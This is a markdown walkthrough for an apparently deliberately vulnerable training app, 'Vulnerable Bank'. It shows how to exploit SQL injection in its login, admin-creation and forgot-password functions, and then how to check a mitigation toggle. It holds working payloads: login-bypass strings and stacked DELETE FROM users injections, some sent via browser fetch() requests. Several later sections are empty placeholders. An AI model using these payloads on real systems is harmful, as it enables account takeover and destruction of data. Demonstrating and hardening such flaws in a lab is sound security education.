# SQL Injection Vulnerabilities
``
## Prerequisites
Browser access to functioning web app and at least three registered user accounts.
- At least one of the accounts needs to be an admin.

## Demonstrations
This vulnerability is present in ten different functions within app.py. Steps for exploitation and verification of hardening are as follows.
### login()
Grants attacker full access to a user account.
#### Exploit
1. Go to login page.
From here, this may be exploited in one of two ways:
##### via UI
2. To access a specific user account (say "admin" in this case),
type in `admin' OR '1'='1` into the username field.
3. Type in whatever for the password.

    
4. This will bring the attacker to the dashboard of that user.
5. If the username is not known, the attacker can type in
`' OR '1'='1' --` into the username field.
6. Type in whatever for the password.

    
##### via CLI
7. Open the browser console/terminal.
8. Issue the following fetch request as a command
to gain access to the "admin" account:
`fetch('/login', { method: 'POST',
headers: {'Content-Type': 'application/json'},
body: JSON.stringify({username: "admin' OR '1'='1"
})}).then(r => r.json()).then(console.log)`
9. Observe outcome.

    
#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack (either sequence of steps above) and observe outcome:

10. UI:



11. CLI:



### create_admin()
Allows attacker to alter information in the database when creating an admin account. If an attacker had
obtained an admin token this would allow them to do this without being an admin.
#### Exploit
1. For the sake of the examples below, register the following users: "bb" and "cc". It does not matter what the passwords are.
2. Log in as an admin.
From here, this may be exploited in one of two ways:
##### via UI
3. Once logged in as an admin, scroll down and click on "Admin Panel".

    
4. Take a look at the "User Management" section to see the registered users.

    
5. Scroll down to "Create Admin Account"

    
6. Type the following into username: `newuser1', 'foo', '1540', true); DELETE FROM users WHERE username = 'bb';--`.
You may need to change the account_number from 1540 if already taken.
7. Type in anything you want in the password field.

    

8. Take a look at the "User Management" section to see that `<other_user>` has been replaced by `newuser1'.

    
##### via CLI
9. Open the browser console/terminal.
10. Issue the following fetch request as a command
to test the SQL injection: `fetch("/admin/create_admin", {
  method: "POST", headers: { "Content-Type": "application/json",
    "Authorization": "Bearer " + localStorage.getItem("jwt_token")
  }, body: JSON.stringify({
    username: "newuser2', 'bar', '1541', true); DELETE FROM users WHERE username = 'cc';--",
    password: "123"})
    }).then(r => r.json())
    .then(console.log);`

11. The "User Management" should now look like this:

    

#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button.

12. via UI:
13. Follow the directions for #3-#5 above. For #6, use this command instead: `newuser3', 'foo', '1543', true); DELETE FROM users WHERE username = 'newuser1';--`. You may need to change the account_number from 1540 if already taken. Type in anything you want in the password field.

    

14. Observe that this creates a strangely named user, but does not delete "newuser1".

    

15. via CLI:
16. Open the browser console/terminal.
17. Issue the following fetch request as a command
to test the SQL injection: `fetch("/admin/create_admin", {
  method: "POST", headers: { "Content-Type": "application/json",
    "Authorization": "Bearer " + localStorage.getItem("jwt_token")
  }, body: JSON.stringify({
    username: "newuser4', 'bar', '1545', true); DELETE FROM users WHERE username = 'newuser1';--",
    password: "123"})
    }).then(r => r.json())
    .then(console.log);`

    

18. Observe that this creates a strangely named user, but does not delete "newuser1".

    
### forgot_password()
Username is vulnerable to SQL injection.
#### Exploit
This may be exploited in one of two ways:
##### via UI
1. Go to the login page and click on ‘Forgot Password? Reset here’.

    

2. Type in `admin' OR '1'='1` in username.

    

3. See result:

    

##### via CLI
4. Open the browser console/terminal.
5. Issue the following fetch request as a command
to test the SQL injection: `fetch('/forgot-password', {
method: 'POST',
headers: {'Content-Type': 'application/json'
},body: JSON.stringify({
username: "admin' OR '1'='1"
})}).then(r => r.json())
.then(console.log)`

6. See result:

    

#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack (either sequence of steps above) and observe outcome:

7. UI:

    

8. CLI:

    

###  api_v1_forgot_password()
Username is vulnerable to SQL injection.
#### Exploit
This may be exploited with the CLI.
##### via CLI
1. Open the browser console/terminal.
2. Issue the following fetch request as a command
to test the SQL injection: `fetch('/api/v1/forgot-password', {
method: 'POST',
headers: {'Content-Type': 'application/json'
},body: JSON.stringify({
username: "admin' OR '1'='1"
})}).then(r => r.json())
.then(console.log)`

3. See result:

    

#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack as above and observe outcome:

4. CLI:

    

###  api_v2_forgot_password()
Username is vulnerable to SQL injection.
#### Exploit
This may be exploited with the CLI.
##### via CLI
1. Open the browser console/terminal.
2. Issue the following fetch request as a command
to test the SQL injection: `fetch('/api/v2/forgot-password', {
method: 'POST',headers: {
'Content-Type': 'application/json'
},body: JSON.stringify({
username: "admin' OR '1'='1"
})}).then(r => r.json())
.then(console.log)`

3. See result:

    

#### Mitigate
Return to root URL (Vulnerable Bank homepage) and click Toggle Mitigation button. Repeat attack as above and observe outcome:

4. CLI:

    

###  api_v3_forgot_password()

#### Exploit

##### via URL

##### via CLI

#### Mitigate

###  api_transactions()

#### Exploit

##### via URL

##### via CLI

#### Mitigate

###  create_virtual_card()

#### Exploit

##### via URL

##### via CLI

#### Mitigate

###  get_billers_by_category()
Will complete later - not needed for demo
#### Exploit

##### via URL

##### via CLI

#### Mitigate

###  get_payment_history()
Will complete later - not needed for demo
#### Exploit

##### via URL

##### via CLI

#### Mitigate
